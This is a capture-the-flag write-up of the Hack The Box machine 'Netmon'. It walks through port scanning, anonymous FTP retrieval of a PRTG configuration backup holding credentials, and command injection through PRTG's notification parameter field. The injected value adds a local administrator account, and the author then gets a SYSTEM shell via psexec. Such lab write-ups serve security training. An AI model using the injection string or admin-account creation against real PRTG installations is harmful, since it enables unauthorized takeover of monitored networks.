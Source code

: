 ```yaml
---
title: "Netmon HTB"
date: 2024-07-17T16:51:04-07:00
draft: false
---
```


## Summary 
In this box we find and FTP server with Anonymous FTP login allowed. This will lead us to the credentials for admin access to an Paessler PRTG bandwidth monitor with the version PRTG/18.1.37.13946 found by nmap and later confirmed by the admin panel. This we find to be vulnerable CVE-2018-10253 with a CVSS 3.x score of 7.5 High. This will lead to the exploit that will get us "nt authoruty\system".

## Given 
IP=10.10.10.152

## Enumeration 

```sh
-[Wed Jul 17-14:30:20]-[jmk@parrot]-
-[~/Documents/Netmon]$ nmap -Pn -p- -oN nmap-p $IP --min-rate=1000
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 14:30 PDT
Nmap scan report for 10.10.10.152
Host is up (0.092s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

```

```sh
-[Wed Jul 17-14:31:45]-[jmk@parrot]-
-[~/Documents/Netmon]$ nmap -p 21,80,135,445,5985,47001,49664,49665,49666,49667,49668,49669 -sCV -v -oN nmap-sCV $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 14:35 PDT
<snip>
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-07-17T21:36:12
|_  start_date: 2024-07-17T21:28:18
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

```

We see "ftp-anon: Anonymous FTP login allowed (FTP code 230)"
so lets login and see what is accessible

## FTP 
```sh
-[Wed Jul 17-14:36:20]-[jmk@parrot]-
-[~/Documents/Netmon]$ ftp $IP
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:jmk): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||50054|)
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.
<snip>
cd Public -> Users -> Desktop
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||50062|)
150 Opening ASCII mode data connection.
100% |*************************************************|    34        0.39 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (0.39 KiB/s)
<snip>
cd /programdata/Paessler/PRTG Network Monitor
<snip>
get 'PRTG Configuration.old.bak' 
exit

```
looking up where the PRTG Configuration [file](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) should be
```sh
-[Wed Jul 17-14:48:18]-[jmk@parrot]-
-[~/Documents/Netmon]$ cat user.txt
b53<snip>73e

```

looking inside 'PRTG Configuration.old.bak' 
note to self: in vim to [search](https://linuxize.com/post/vim-search/) use '/' and then type search pattern
press 'n' for next and 'N' for previous, for words `/\<words\>`
/db 
![dbuser-dbpass.png](/dbuser-dbpass.png)

this user and password will not work 
It should have been obvious to me to try a variation of the password like 
so prtgadmin:PrTg@dmin2019

## Web Admin 

so now that we are logged in we see the version information
![PRTG-Version.png](/PRTG-Version.png)

```sh
-[Wed Jul 17-15:32:47]-[jmk@parrot]-
-[~/Documents/Netmon]$ searchsploit PRTG 18.1.37
--
 Exploit Title           |  Path
----
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denia | windows_x86/dos/44500.py
----
Shellcodes: No Results


-[Wed Jul 17-15:41:11]-[jmk@parrot]-
-[~/Documents/Netmon]$ searchsploit --copy  windows_x86/dos/44500.py
  Exploit: PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)
      URL: https://www.exploit-db.com/exploits/44500
     Path: /usr/share/exploitdb/exploits/windows_x86/dos/44500.py
    Codes: CVE-2018-10253
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable
Copied to: /home/jmk/Documents/Netmon/44500.py

```

note: CVE-2018-10253
![nist-cve-discription.png](/nist-cve-discription.png)

I could not get 44500.py to work, so I kept looking and found out the by setting up a notification in the admin dashboard I could run psexec.py and get sysadmin. 

the step to set up 
Setup -> Account Settings -> Notifications 
add new notification

Leave the default fields as they are and scroll tell "Execute Program" 
for "Program File" use "Demo exe notification -outfile.ps1"
and for "Parameter" use 
`abc.txt | net user htb abc123! /add ; net localgroup administrators htb /add`
then save the file and and to the right of your notification click the edit icon and the bell so the trigger works 

Note to reader 
this part i got from the official write up. When I changed creeds to "jmk:jmk222!" And the file name to "mytest"
`jmk.txt | net user jmk jmk222! /add ; net localgroup administrators jmk /add`
I am not sure why it was not working maybe do to having made htb creeds first notification that i added? In the write-up there is a link to [this](https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/) they use `test.txt;net user pentest p3nT3st! /add`
so i must be making another mistake 

## System Admin 
```sh
 python psexec.py htb:'abc123!'@$IP
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file cXrYsDRc.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service pNwj on 10.10.10.152.....
[*] Starting service pNwj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authoruty\system
<snip>
C:\Users\Administrator\Desktop> type root.txt
6c9<snip>c27

```

